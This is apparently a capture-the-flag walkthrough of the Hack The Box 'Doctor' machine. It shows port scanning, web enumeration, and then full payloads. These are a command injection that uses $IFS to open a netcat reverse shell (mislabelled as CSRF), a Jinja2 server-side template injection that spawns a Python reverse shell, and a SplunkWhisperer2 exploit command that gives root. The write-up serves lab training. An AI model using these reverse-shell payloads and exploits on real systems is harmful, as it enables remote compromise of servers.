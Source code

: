 ![](doctor_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></img></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.209 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.209`
```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
```
## Splunk

**[Splunk](https://www.splunk.com/) :** software for searching, monitoring, and analyzing machine-generated big data via a Web-style interface.

**Goto :** https://10.10.10.209:8089/ `Splunk Atom Feed: splunkd`

**Access :** Denied, need creds to access `services`

**Version :** server has Splunk build: 8.0.5 

**vulnerability :** [Abusing-Splunk-Forwarders](https://medium.com/@airman604/splunk-universal-forwarder-hijacking-5899c3e0e6b2)

**Exploit :** [PySplunkWhisperer](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2)

*Exploit requires creds*

## Web_server

- going through webserver on port `80` first thing i notice is a email address,

	  info@doctors.htb
	 
- I add domain `doctors.htb` from that email to `/etc/hosts` and check i there is any diffrence .
- **goto** `doctors.htb` redirected to `http://doctors.htb/login?next=%2F` and land on a login page .

### Enumerating doctors.htb

- try default logins or some injection on login page but got nothing .
- in the top right corner there is a Register button .

**Note :** registering a new account only valid for 20 minutes as the domain shows this message after registering account
```
Your account has been created, with a time limit of twenty minutes! 
```
- after login i check pages source codes and found a comment

	  <!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->
	  
- **goto** `http://doctors.htb/archive` got blank page viewing source got `<title>Archive</title>`

- this domain `Doctor Secure Messaging` all about posting staff messages.
- as a loged in user i can post a message, so i create a new message.
- my post is on `http://doctors.htb/post/2` 
- this shows `post/2` but this is my first post, i check first post and this is a post from admin and nothing intrested here.
- I also check `/archive` source again and the `<title>` tag now updated with my post title
- try injections on `http://doctors.htb/post/new` page
- i use diffrent injecion payloads from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- found 2 successful injections in `http://doctors.htb/post/new`
    - **CSRF** in `Content` field
    - **SSTI** in `title` field

*I learn Both Attacks from scratch*

*some resources that help me*

**Server-Side Template Injection**

https://www.youtube.com/watch?v=3cT0uE7Y87s

https://portswigger.net/research/server-side-template-injection

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

**Cross-site request forgery**

https://www.youtube.com/watch?v=vRBihr41JTo

https://portswigger.net/web-security/csrf


#### CSRF Test

**Payload** `<a href="http://tun0/test">TestURL</a>`

**Response** `10.10.10.209 - - [05/Nov/2020 15:24:15] "GET /test HTTP/1.1" 200 -`

#### SSTI Test

**Payload** `{{7*7}}`

**Response** in `/archive` page source code `<title>` tag updated as `49`


# User Exploit
*Both injection give shell in the box*

## with CSRF

**Payload :** `http://tun0/$(nc.traditional$IFS-e/bin/sh$IFS'tun0'$IFS'4141')`

- load the payload in Content field and post the message and shell pop in netcat .
- spaces in the code are a problem for the execution of the code,
- thats why i use `$IFS` as this is a space-replacer for Linux Bash .
	- [IFS](https://mywiki.wooledge.org/IFS) : 
	variable is used in shells (Bourne, POSIX, ksh, bash) as the input field separator
	The default value of IFS is space, tab, newline. 

## with SSTI

**Payload :** `{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"tun0\",4141));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}`

got that working payload from : https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset

- load the payload in title field and post the message than go to `/archive` execute the payload and pop shell in netcat .

### Enumerating web@doctor

- `cat /etc/passwd` shows two users

	  shaun:x:1002:1002:shaun,,,:/home/shaun:/bin/bash
	  splunk:x:1003:1003:Splunk Server:/opt/splunkforwarder:/bin/bash

- linpeas script password string in apache2 logs

	  /var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"

- got password rightaway, i tried that password for both users and worked for user `shaun`
	`shaun:Guitar123`

```
shaun@doctor:~$ cat user.txt
cat user.txt
aaaab5f8************************
```

# Local Enumeration

- I alredy found a Auth RCE for [Splunk](README.md#splunk) so first i try to login with these cred in splunk on port 8089
- login successful and i run that [exploit](exploit/SplunkWhisperer2_RCE.py)

# Root Privesc

## SplunkWhisperer RCE

`python SplunkWhisperer2_RCE.py --host 10.10.10.209 --username shaun --password Guitar123 --lhost tun0 --payload 'nc.traditional -e '/bin/sh' tun0 4242'`

- open netcat listener
- The exploit is straightforward and get a direct rootshell on nc listener .
```
root@doctor:/root# cat root.txt
cat root.txt
e03b774e************************
```